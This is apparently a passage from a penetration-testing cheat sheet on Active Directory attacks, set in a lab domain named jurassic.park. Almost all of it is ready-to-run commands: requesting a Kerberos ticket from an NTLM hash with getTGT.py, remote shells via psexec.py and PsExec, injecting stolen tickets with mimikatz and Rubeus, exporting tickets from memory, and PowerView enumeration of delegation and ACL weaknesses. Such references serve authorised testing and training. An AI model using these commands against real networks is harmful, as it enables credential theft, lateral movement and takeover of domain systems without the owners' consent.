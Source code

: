 ```bash
python getTGT.py jurassic.park/velociraptor -hashes :2a3de7fe356ee524cc9f3d579f2e0aa7

export KRB5CCNAME=/root/impacket-examples/velociraptor.ccache

python psexec.py jurassic.park/velociraptor@labwws02.jurassic.park -k -no-pass
```

#### Pass The Ticket:

```bash
#Load the ticket in memory using mimikatz or Rubeus
mimikatz.exe "kerberos::ptt [0;28419fe]-2-1-40e00000-trex@krbtgt-JURASSIC.PARK.kirbi" 

OR 

.\Rubeus.exe ptt /ticket:[0;28419fe]-2-1-40e00000-trex@krbtgt-JURASSIC.PARK.kirbi
klist 

.\PsExec.exe -accepteula \\lab-wdc01.jurassic.park cmd

OR
export KRB5CCNAME=/root/impacket-examples/krb5cc_1120601113_ZFxZpK
psexec.py domain/user@domain.com -k -no-pass
```

#### Unconstrained Delegation:

```bash
Get-NetComputer -Unconstrained #PowerView

.\mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" "kerberos::list /export"
```

#### Constrained Delegation:

```powershell
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth #powerview!
```

Check if any users are within this that would allow for it.

#### Check ACLs

{% code overflow="wrap" %}
```powershell
Get-ObjectAcl -SamAccountName username -ResolveGUIDs | ? {$_.ActiveDirectoryRights -eq "GenericAll"}
#PowerView

#Bloodhound does this for you, the only downside to bloodhound is the fact that sometimes the collectors and version are incompatible, which is easily fixed by using Bloodhound from an older version. Just make sure the version matches.
```
{% endcode %}
